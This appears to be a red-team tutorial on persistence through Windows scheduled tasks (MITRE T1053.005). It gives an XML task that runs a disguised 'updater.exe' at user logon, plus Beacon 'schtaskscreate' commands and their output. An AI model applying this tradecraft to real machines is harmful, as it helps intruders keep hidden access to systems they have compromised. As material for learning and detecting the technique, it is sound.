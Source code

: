 The Windows Task Scheduler is able to perform routine tasks based on pre-defined triggers, including:

- At a specific time on a daily, weekly, or monthly schedule.
    
- When the computer goes idle.
    
- When the system starts.
    
- When a user logs on.
    
- When a system event occurs.
    

These are usually used to run software updates, and other clean-up tasks, etc.  An adversary can also add a scheduled task to execute payloads on a trigger of their choosing [[T1053.005](https://attack.mitre.org/techniques/T1053/005/)].

At their heart, tasks are defined in XML format.  Information about creating task definitions can be found [here](https://learn.microsoft.com/en-us/windows/win32/taskschd/task-scheduler-schema-elements) and [here](https://learn.microsoft.com/en-us/windows/win32/taskschd/time-trigger-example--xml-).  The `schtaskscreate` BOF can create scheduled tasks from a given XML task definition.  Here's an example that will trigger when the user logs in:

```xml
<Task xmlns="http://schemas.microsoft.com/windows/2004/02/mit/task">
  <Triggers>
    <LogonTrigger>
      <Enabled>true</Enabled>
      <UserId>CONTOSO\pchilds</UserId>
    </LogonTrigger>
  </Triggers>
  <Principals>
    <Principal>
      <UserId>CONTOSO\pchilds</UserId>
    </Principal>
  </Principals>
  <Settings>
    <AllowStartOnDemand>true</AllowStartOnDemand>
    <Enabled>true</Enabled>
  </Settings>
  <Actions>
    <Exec>
      <Command>%LOCALAPPDATA%\Microsoft\WindowsApps\updater.exe</Command>
    </Exec>
  </Actions>
</Task>
```

Run the command `schtaskscreate \Beacon XML CREATE` without any further arguments and a file dialogue box will appear for you to browse and select the XML file.

> Replace `\Beacon` with any name you like, but it must start with the `\`.

```powershell
beacon> schtaskscreate \Beacon XML CREATE

createTask hostname: taskpath:\Beacon mode:2 force:0
Got user name and security descriptor
Valitdated task
Created task path
Registered task
SUCCESS.
```

> The task can be deleted using `schtasksdelete`.

